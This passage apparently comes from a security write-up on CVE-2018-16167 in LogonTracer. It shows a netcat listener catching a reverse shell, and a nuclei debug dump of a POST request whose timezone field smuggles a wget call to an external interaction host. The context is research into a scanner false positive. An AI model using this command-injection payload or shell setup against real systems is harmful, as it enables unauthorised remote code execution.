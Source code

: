 ```bash
nc -lvp 8888
Listening on 0.0.0.0 8888
Connection received on 172.22.0.3 37761
ls
LICENSE.txt
README.md
docker
images
logontracer.py
model
requirements.txt
sample
static
templates
```

## Wild-life scanning

There is an interesting false positive we get about that CVE in a wild life. 
We run `nuclei` scanner and found a site with that vulnerability. However, when the above PoC was applied, we did not get the shell. So we started to investigate the case. We ran `nuclei` with debug switch:

```bash
nuclei -t http/cves/2018/CVE-2018-16167.yaml -u https://x.y.z:443 -debug
```

where x.y.z is the researched site.

The result

```bash
  ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.2.7

		projectdiscovery.io

[INF] Current nuclei version: v3.2.7 (latest)
[INF] Current nuclei-templates version: v9.8.6 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 65
[INF] Templates loaded for current scan: 1
[INF] Executing 1 signed templates from projectdiscovery/nuclei-templates
[INF] Targets loaded for current scan: 1
[INF] Using Interactsh Server: oast.fun
[INF] [CVE-2018-16167] Dumped HTTP request for https://x.y.z:443/upload

POST /upload HTTP/1.1
Host: x.y.z
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.39 (KHTML, like Gecko) Chrome/89.0.4389.111 Safari/537.39
Connection: close
Content-Length: 88
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

logtype=XML&timezone=1%3Bwget+http%3A%2F%2Fcp6elbcevnbsmo7534vg5w3tqhy1xfgnb.oast.fun%3B
[DBG] [CVE-2018-16167] Dumped HTTP response https://x.y.z:443/upload

HTTP/1.1 500 Internal Server Error
Connection: close
Transfer-Encoding: chunked
Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000
```